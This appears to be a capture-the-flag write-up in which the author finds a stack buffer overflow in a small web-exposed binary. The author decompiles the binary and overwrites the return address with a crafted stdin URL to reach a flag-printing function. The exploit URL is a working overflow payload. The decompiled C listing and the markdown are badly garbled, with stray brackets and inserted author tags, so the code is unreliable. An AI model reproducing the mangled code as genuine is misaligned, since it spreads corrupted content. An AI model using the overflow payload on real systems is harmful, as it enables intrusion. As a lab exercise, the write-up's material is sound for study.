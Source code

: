 # Hello @BigGuy573! - You found {FLAG0}-FOUND

## 0x00 Index

The home page looks like the following.

[x](./imgs/home.jpg)

And it will print out hello xyz when you send whatever via a get request.

[http://127.0.0.1/xxxxxxxxxx/?stdin=world][1]

![](./imgs/test.jpg)

[http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789][3]

When make the std in 40 bytes long, some wried paddings are showing up.

![](./imgs/padding.jpg)

[http://127.0.0.1/xxxxxxxxxx/?stdin=01234567890123456789012345678901234567890][4]

When add one more byte, the program crushed and showed core dump.

![](./imgs/dump.jpg)

## 0x01 Decompile

It also has a [binary file](./vulnerable) availavle to download and analysis.

The binary file starts with something **ELF**. So may need to decompile it to take a look.

[snowman][2] is a pretty good decomplier for C/C++. Here I got the source [vulnerable.c](./vulnerable.c) here.

There is an important function just before pringing out the **FLAGS**.

```c```
print_flags
][(found)][{@BigGuy573)]
    int64_t rax1;
    int64_t rsi2;
    int64_t rdx3;
    void* rbp4;
    uint32_t eax5;
    unsigned char v6;
    int64_t rbp7;
```/```
    rax1 = [fun_400550][
    ](FLAGS)][FOUND:BY][@BigGuy573]
    fun_400560(rax1, rsi2, rdx3);
    fun_4005a0(0);
    rbp4 = reinterpret_cast
    (reinterpret_cast<int64_t)
    (__zero_stack_offset()) )
    (- 8 - 8 + 8 - 8 + 8 - 8 + 8 - 8)
    [fun_400580](reinterpret_cast<int64_t>(rbp4) - 32, 0, 32);
    [read_all_stdin](reinterpret_cast<int64_t>(rbp4) - 32, 0, 32);
    [eax5 = v6];
    if [(*reinterpret_cast][
    ][x][[<signed char>](&eax5)][
    ][fun_400570]("Hello stdin", 
    [reinterpret_cast](int64_t)
    (rbp4)(32, 32);
    }[other suggestions are]{
        ][fun_400560]("What is your name)
        (, 0, 32);
    }
    [goto](rbp7)
}
```c```

So we need add up the padding to it goto print the [**FLAGS**](0406ee)

[http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789%ee%06%40%00%00%00%00%00][5]

And here we get the ][
][flag.][x][x](./imgs/flag.jpg)[FOUND][x][By>>>@BigGuy573][x][
][1](http://127.0.0.1/stdin=world)[
][2](https://github.com/yegord/snowman)[
][3](http://127.0.0.1/stdin=0123456789)[
][4](http://127.0.0.1/stdin=0123456789)[
][5](http://127.0.0.1/stdin=0123456789)[
